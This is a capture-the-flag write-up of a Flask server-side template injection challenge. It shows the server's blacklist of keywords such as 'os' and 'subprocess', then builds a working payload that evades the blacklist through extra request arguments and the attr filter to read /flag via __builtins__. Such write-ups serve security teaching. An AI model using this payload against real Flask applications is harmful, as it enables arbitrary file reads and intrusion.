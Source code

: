 # almostnopship0

For this web challenge, we are given a link to a website that bears a striking resemblance to a certain DEF CON challenge. ~~pew pew~~  

![img](img/almost-1.png)

We are told the location of the flag and are provided the source code for the server, along with a nice text box where we can enter our team name. 

![img](img/almost-2.png)

Cool! Four P's are better than three. Now Let's take a look at that source code:

```python
from flask import Flask, render_template, request, send_file, render_template_string

app = Flask(__name__)

# scary names!!
blacklist1 = '_[]\'\"\\%'
blacklist2 = ['mro', 'config', 'base', 'join', 'os', 'subprocess']

@app.route('/')
def root():
    name = request.args.get('name')

    if name: 
        name = name.lower()
        if any([c in blacklist1 for c in name]) or any([b in name for b in blacklist2]):
            name = 'stop it :('

    index = render_template('index.html', name=name)
    return render_template_string(index)

@app.route('/src', methods=['GET'])
def src():
    return send_file('server.py')

# todo run NOPs
```

Interesting. We can see that some sort of blacklist has been implemented that prevents us from using certain character.  Let's tests that out and see if it works:

![img](img/almost-3.png)

Yep, so our team name wasn't able to go through, what a bummer.  
At this point I started to do some research on what I could possibly do to read the flag off of the server. I knew that it had to be a server side injecton, so I looked into that.  Eventually I came across what is know as a Flask SSTI, a type of server side template injection that Flask can be vulnerable to. I gave the input a simple template of `{{request.args}}` and voila.

![img](img/almost-4.png)

Now it's time to start crafting a payload.  We know that we can inject templates in the team name box, but those will all be checked against the blacklist. Maybe there is a way to add additional parameters that could then be read using `request.args`, that way the blacklisted items aren't actually part of `name`, but instead some other variable that we created.  Let's try it out:

`http://ctf-league.osusec.org:31311/?name={{request.args.param1}}&param1=%%Scary_Name%%` 

![img](img/almost-5.png)

And there it is. We now have a way to bypass the filter.  Now we just need to figure out how we are going to get the flag. After doing some more research, we were able to find that we could use `request.application` to access python's internal built-in functions. We eventually settled on this for what we wanted to be excecuted on the server:

`request.application.__globals__.get(__builtins__).open(/flag)`

To transform this into a usable payload, however, we had to set it up in such a way so that we could get around the blacklist. We were able to eventually come up with a method to transform any command into a usable payload:

```
a.b = request.args.a|attr(request.args.b)
a(b) = reqiest.args.a(request.args.b)
```

With this we can start to seperate out our command into sections:

```
request.application + __globals__
get() with paramater __builtins__
open() with paramerter __flag__
```

And putting the whole payload together:

`http://ctf-league.osusec.org:31311/?{{(request.application|attr(request.args.param1)).get(request.args.param2).open(request.args.param3).read()}}&param1=__globals__&param2=__builtins__&param3=/flag`  

We get the flag!

![img](img/almost-flag.png)

`osu{but_mY_bLAcKL1st_W4S_so_g00d:(}` 
